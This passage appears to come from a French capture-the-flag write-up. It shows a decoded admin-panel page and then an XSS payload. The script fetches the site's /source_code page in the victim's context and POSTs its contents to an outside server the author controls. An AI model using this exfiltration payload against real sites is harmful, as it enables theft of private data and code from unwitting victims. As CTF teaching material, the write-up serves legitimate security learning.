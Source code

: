 ![Code Recu](/medias/writeups/bad-dev/image-1.png)

Le code décodé ressemble à cela :

```html
html><head></head>
<body>
  <h1>Main admin panel</h1>
  <ul>
    <li><a href="https://under_construction.local/">Local Dev Version</a></li>
    <li><a href="/source_code">LocalDev SourceCode</a></li>
    <li><a href="https://sthack.fr/">Best conference Ever</a></li>
    <li><a href="https://shoxxdj.fr">I love this man</a></li>
  </ul>
  <hr />
  <i>User message : </i>
  [...]
</body>
```

Je tronque la fin car il s'agit du payload. Seulement deux élléments sont interessants :

- /source_code
- https://under_construction.local

Il est à présent temps de récupérer le code source et de l'envoyer sur le serveur distant :

```html
<script>
  const destinationUrl = "https://vps.shoxxdj.fr";
  function notify(path, data) {
    return fetch(destinationUrl + path, {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify(data),
    });
  }

  (async () => {
    try {
      // await notify("/part-two", {
      //   status: "ok",
      //   page: btoa(document.documentElement.outerHTML),
      //});

      const response = await fetch("/source_code");
      const html = await response.text();

      await notify("/sourcecode", { status: "ok", content: html });
    } catch (err) {
      await notify("/error", {
        status: "not ok",
        val: err.message || String(err),
      });
    }
  })();
</script>
```
